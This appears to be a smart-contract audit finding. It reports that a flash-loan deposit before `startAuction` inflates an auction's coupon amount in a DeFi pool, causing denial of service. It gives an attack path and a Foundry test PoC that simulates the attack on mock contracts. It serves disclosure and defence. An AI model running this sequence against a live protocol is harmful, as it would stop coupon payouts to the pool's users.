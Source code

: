 Custom Bubblegum Bison

Medium

# Flash loan deposit before startAuction will inflate auction couponAmount - DoS

### Summary

When it is time for distribution an attacker can flash loan a huge amount of reserve token, call the `create` method of `Pool` to mint some temporary shares. Then call `startAuction`, which will use the current bondToken supply to calculate the `couponAmountToDistribute` for the new auction. Finally, the attacker can `redeem` his shares and return the flash loan.
This will cause the auction to need to collect a lot of extra coupon tokens - which will lead to `State.FAILED_UNDERSOLD` if there are not enough bidders to get to this increased coupon amount or `State.FAILED_POOL_SALE_LIMIT` if the pool doesn't have the reserves to pay out the bidders (This large coupon demand and low reserve in pool will make it uneconomical for bidders to participate). Leading to denial of service

### Root Cause

In `Pool.sol:545` the current bondToken totalSupply is used, which can be momentarily inflated by a flash loan.

### Internal Pre-conditions

1. The distribution period needs to have passed so it is time to create an auction to collect coupon tokens.
2. The auction for this distribution period needs to not have been created already. - can front run the legitimate `startAuction` tx when the block.timestamp comes.

### External Pre-conditions

no external pre-conditions

### Attack Path

1. Attacker flash loans a lot of reserve token
2. Attacker calls  pool's `create` method to mint a lot of shares
3. Attacker calls `startAuction`
4. Attacker calls pool's `redeem` to withdraw the shares
5. Attacker returns the flash loan

### Impact

This is a DoS attack, which doesn't result in the attacker gaining any protocol funds. Instead the attacker needs to pay tx fees and flash loan fee to execute this attack, but this can result in the auction component of the system to not work as intended and result in no coupon tokens being distributed for all customers.

### PoC

My PoC is using wETH as reserve token, but read in some discussions that the balancer token will be used, but the concept is the same -> flash loan wETH, deposit in balancerRouter, balancer tokens will be deposited in Pool, and after the attack can exit the plaza pool to return the flash loan

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";

import {Pool} from "../src/Pool.sol";
import {Token} from "./mocks/Token.sol";
import {Utils} from "../src/lib/Utils.sol";
import {Auction} from "../src/Auction.sol";
import {MockPool} from "./mocks/MockPool.sol";
import {BondToken} from "../src/BondToken.sol";
import {PoolFactory} from "../src/PoolFactory.sol";
import {Distributor} from "../src/Distributor.sol";
import {OracleFeeds} from "../src/OracleFeeds.sol";
import {LeverageToken} from "../src/LeverageToken.sol";
import {Deployer} from "../src/utils/Deployer.sol";
import {MockPriceFeed} from "./mocks/MockPriceFeed.sol";
import {OracleFeeds} from "../src/OracleFeeds.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {UpgradeableBeacon} from "@openzeppelin/contracts/proxy/beacon/UpgradeableBeacon.sol";
import {PausableUpgradeable} from "@openzeppelin/contracts-upgradeable/utils/PausableUpgradeable.sol";
import "forge-std/console.sol";

contract AttackTest is Test {
  Auction auction;
  Token usdc;
  Token weth;

  address bidder = address(0x1);
  address house = address(0x2);
  address minter = address(0x3);
  address governance = address(0x4);
  address securityCouncil = address(0x5);
  MockPriceFeed private mockPriceFeed;
  address public constant ethPriceFeed = address(0x71041dddad3595F9CEd3DcCFBe3D1F4b0a16Bb70);
  uint256 private constant CHAINLINK_DECIMAL_PRECISION = 10**8;
  uint8 private constant CHAINLINK_DECIMAL = 8;

  address pool;

  function setUp() public {
    usdc = new Token("USDC", "USDC", false);
    weth = new Token("WETH", "WETH", false);
    
    pool = createPool(address(weth), address(usdc));
    useMockPool(pool);
  }

  function createPool(address reserve, address coupon) public returns (address) {
    vm.startPrank(governance);
    address deployer = address(new Deployer());
    address oracleFeeds = address(new OracleFeeds());

    address poolBeacon = address(new UpgradeableBeacon(address(new Pool()), governance));
    address bondBeacon = address(new UpgradeableBeacon(address(new BondToken()), governance));
    address levBeacon = address(new UpgradeableBeacon(address(new LeverageToken()), governance));
    address distributorBeacon = address(new UpgradeableBeacon(address(new Distributor()), governance));

    PoolFactory poolFactory = PoolFactory(Utils.deploy(address(new PoolFactory()), abi.encodeCall(
      PoolFactory.initialize, 
      (governance, deployer, oracleFeeds, poolBeacon, bondBeacon, levBeacon, distributorBeacon)
    )));

    PoolFactory.PoolParams memory params;
    params.fee = 0;
    params.reserveToken = reserve;
    params.sharesPerToken = 2500000;
    params.distributionPeriod = 90 days;
    params.couponToken = coupon;
    
    poolFactory.grantRole(poolFactory.GOV_ROLE(), governance);
    poolFactory.grantRole(poolFactory.POOL_ROLE(), governance);
    poolFactory.grantRole(poolFactory.SECURITY_COUNCIL_ROLE(), securityCouncil);

    OracleFeeds(oracleFeeds).setPriceFeed(params.reserveToken, address(0), ethPriceFeed, 100 days);

    // Deploy the mock price feed
    mockPriceFeed = new MockPriceFeed();

    // Use vm.etch to deploy the mock contract at the specific address
    bytes memory bytecode = address(mockPriceFeed).code;
    vm.etch(ethPriceFeed, bytecode);

    // Set oracle price
    mockPriceFeed = MockPriceFeed(ethPriceFeed);
    mockPriceFeed.setMockPrice(3000 * int256(CHAINLINK_DECIMAL_PRECISION), uint8(CHAINLINK_DECIMAL));


  Token(reserve).mint(governance, 1000000*10**18);
    Token(reserve).approve(address(poolFactory), 1000000*10**18);
    
    return poolFactory.createPool(params, 1000000*10**18, 10000*10**18, 10000*10**18, "Bond ETH", "bondETH", "Leverage ETH", "levETH", false);
  }

  function useMockPool(address poolAddress) public {
    // Deploy the mock pool
    MockPool mockPool = new MockPool();

    // Use vm.etch to deploy the mock contract at the specific address
    vm.etch(poolAddress, address(mockPool).code);
  }

  function testAuctionLargeCouponAmount() public {
    Pool _pool = Pool(pool);

    vm.startPrank(governance);
    _pool.setAuctionPeriod(10 days);
    vm.stopPrank();

    vm.warp(95 days);

    address attacker = address(0xbad);
    vm.startPrank(attacker);
    // Simulate flash loan
    Token(_pool.reserveToken()).mint(attacker, 500e18);
    Token(_pool.reserveToken()).approve(address(_pool), 500e18);
    uint256 attackerShares = _pool.create(Pool.TokenType.BOND, 500e18, 0);

    Pool(pool).startAuction();

    // Redeem attacker shares to return the flash loan
    _pool.redeem(Pool.TokenType.BOND, attackerShares, 0);
    vm.stopPrank();

    (uint256 currentPeriod,) = Pool(pool).bondToken().globalPool();
    address auctionAddress = Pool(pool).auctions(currentPeriod-1);
    Auction _auction = Auction(auctionAddress);

    // 2.5e22 without the attack, 6.25e22 with the attack
    console.log("total buy coupon amount",_auction.totalBuyCouponAmount());
  }
}
```

### Mitigation

The team needs to discuss possible fix for this, an idea may be to add a delay to redeeming.